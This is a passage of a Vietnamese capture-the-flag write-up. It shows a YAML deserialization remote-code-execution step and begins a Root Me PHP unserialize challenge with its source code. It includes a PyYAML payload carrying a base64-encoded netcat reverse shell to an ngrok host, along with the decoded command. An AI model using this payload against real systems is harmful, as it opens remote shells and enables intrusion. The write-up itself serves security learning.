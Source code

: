 Base64 encode payload trên và gửi request:

![](https://hackmd.io/_uploads/B1VWJdLE3.png)

Và em nhận được request bên Collaborator:

![](https://hackmd.io/_uploads/BJNV1u8Eh.png)

Hoặc có thể dùng payload sau để rce:

```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
 - python
 - -c
 - "__import__('os').system(str(__import__('base64').b64decode('cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxMDU2MCA+L3RtcC9m').decode()))"
```

Với `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxMDU2MCA+L3RtcC9m` là payload reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 0.tcp.ap.ngrok.io 10560 >/tmp/f`

Gửi payload và em đã reverse shell thành công:

![](https://hackmd.io/_uploads/H1oDAMPV3.png)



## Root Me/PHP - Unserialize overflow

![](https://hackmd.io/_uploads/rkYsLlO42.png)

Link to chall: http://challenge01.root-me.org/web-serveur/ch65/

### Phân tích:

Khi vào chall em nhận được 1 form đăng nhập:

![](https://hackmd.io/_uploads/S1OyOeOE3.png)

Nhập thử thông tin bất kỳ web đều trả về: `Invalid username or password.`

Vậy nên phải xem source code thui:

```php
<?php
include 'flag.php';

ini_set('display_errors', 1);
error_reporting(E_ALL);

class User
{
    protected $_username;
    protected $_password;
    protected $_logged = false;
    protected $_email = '';

    public function __construct($username, $password)
    {
        $this->_username = $username;
        $this->_password = $password;
        $this->_logged = false;
    }

    public function setLogged($logged)
    {
```